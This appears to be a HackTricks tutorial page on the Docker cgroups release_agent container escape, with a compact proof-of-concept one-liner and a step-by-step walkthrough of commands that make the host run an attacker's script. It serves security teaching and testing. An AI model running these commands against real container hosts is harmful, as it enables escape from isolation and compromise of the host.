 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**For further details, refer to the** [**original blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** This is just a summary:

Original PoC:

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **Prepare the Environment:**
   * A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.
   * The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Set Up the Child Cgroup:**
   * A child cgroup named "x" is created within the mounted cgroup directory.
   * Notifications are enabled for the "x" cgroup by writing 1 to its notify\_on\_release file.

```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Configure the Release Agent:**
   * The path of the container on the host is obtained from the /etc/mtab file.
   * The release\_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Create and Configure the /cmd Script:**
   * The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

5. **Trigger the Attack:**
   * A process is initiated within the "x" child cgroup and is immediately terminated.
   * This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
